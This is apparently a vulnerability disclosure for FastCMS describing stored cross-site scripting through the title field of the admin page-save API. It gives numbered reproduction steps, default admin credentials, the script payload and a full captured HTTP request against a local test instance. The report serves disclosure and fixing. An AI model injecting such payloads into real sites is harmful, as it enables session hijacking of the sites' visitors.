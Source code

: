 
Vulnerability http://127.0.0.1:8080/fastcms/api/admin/page/save
POST form-data parameter title=" " exists stored cross-site scripting

Copy Steps
1.Go to administrator login
http://127.0.0.1:8080/fastcms/
Default administrator access information username:admin password: 1

2.Click on "Page" and click on "New Page"
image

3.Put Payload into the title parameter
Payload:<script>alert(document.cookie)</script>
image

4.Click on Save
Transmission packet
POST /fastcms/api/admin/page/save HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg
ClientId: 5986012cabe54397a001bf61b4d88706
Content-Type: application/x-www-form-urlencoded
Content-Length: 305
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1/fastcms.html
Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995

id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
image

